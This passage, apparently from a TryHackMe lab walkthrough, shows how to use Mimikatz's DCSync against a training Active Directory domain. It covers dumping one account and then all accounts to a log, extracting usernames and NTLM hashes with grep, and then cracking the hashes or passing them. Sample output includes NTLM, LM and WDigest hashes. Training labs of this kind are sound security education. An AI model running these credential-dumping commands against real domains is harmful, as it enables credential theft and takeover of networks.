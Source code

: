 Let's start by performing a DC Sync of a single account, our own:

```markup
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

You will see quite a bit of output, including the current NTLM hash of your account. You can verify that the NTLM hash is correct by using a [website such as this](https://codebeautify.org/ntlm-hash-generator) to transform your password into an NTLM hash.

This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz:

```markup
mimikatz # log <username>_dcdump.txt 
Using '<username>_dcdump.txt' for logfile: OK
```

Make sure to change `<username>` to your username as to not overwrite the logdump of other users. Now, instead of specifying our account, we will use the /all flag:

```markup
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take a bit of time to complete. Once done, exit Mimikatz to finalize the dump find and then you can download the `<username>_dcdump.txt` file. You can use `cat <username>_dcdump.txt | grep "SAM Username"` to recover all the usernames and `cat <username>_dcdump.txt | grep "Hash NTLM"` for all hashes. We can now either perform an offline password cracking attack to recover the plain text credentials or simply perform a pass the hash attack with Mimikatz.
